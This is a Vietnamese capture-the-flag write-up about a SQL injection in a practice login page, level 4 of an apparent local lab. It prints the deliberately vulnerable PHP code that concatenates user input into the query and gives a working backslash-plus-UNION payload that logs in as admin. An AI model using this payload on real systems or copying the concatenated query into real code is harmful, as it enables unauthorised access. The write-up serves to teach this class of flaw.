



# SQL INJECTION localhost:24001/basic/level4.php
### 1. Tổng quan
lv4 là website để login 

### 2. Phạm vi
### 3. Lỗ hổng
#### Description
localhost:24001/basic/level4.php cho phép thực hiện login
#### Impact
Kẻ xấu có thể thực thi 1 phần/toàn bộ SQL query trên server
#### Root-cause analysis

Trong mã nguồn `/src/basic/level4.php`,user input đã được validate dấu `"` để tránh thoát khỏi string trong câu query bằng hàm `checkValid()`

    function checkValid($data)
    {
    if (strpos($data, '"') !== false)
        return false;
    return true;
    }

Nhưng việc nối trực tiếp chuỗi SQL query với user input là biến  `$_POST["username"]` và biến `$_POST["password"]` rất nguy hiểm

    $sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
    $query = $database->query($sql);
    $row = $query->fetch_assoc();

`$row = $query->fetch_assoc()` sẽ lấy hàng đầu tiên từ kết quả trả về. Và hiện tại username đang được bọc trong hàm `LOWER(\"$username\") ` ĐỂ lowercase chuỗi đó .

    if ($row === NULL)
        return "Wrong username or password"; // No result

    $login_user = $row["username"];
    if ($login_user === "admin")
        return "Wow you can log in as admin, here is your flag CBJS{FAKE_FLAG_FAKE_FLAG}, but how about <a href='level5.php'>THIS LEVEL</a>!";
    else
        return "You log in as $login_user, but then what? You are not an admin";
    } catch (mysqli_sql_exception $e) {
        return $e->getMessage();
    }

Vậy sẽ ra sao nếu nhập user input chứa dấu backslash `\` để loại bỏ ý nghĩa đặc biệt của 1 ký tự và coi nó là ký tự bình thường ?

#### Step to reproduce

1. Login tài khoản admin

    Payload: 

        username: \

        password: ) UNION SELECT 'admin' #

Câu query sẽ như sau:

`SELECT username FROM users WHERE username=LOWER("\") AND password=MD5(") UNION SELECT 'admin' #")`

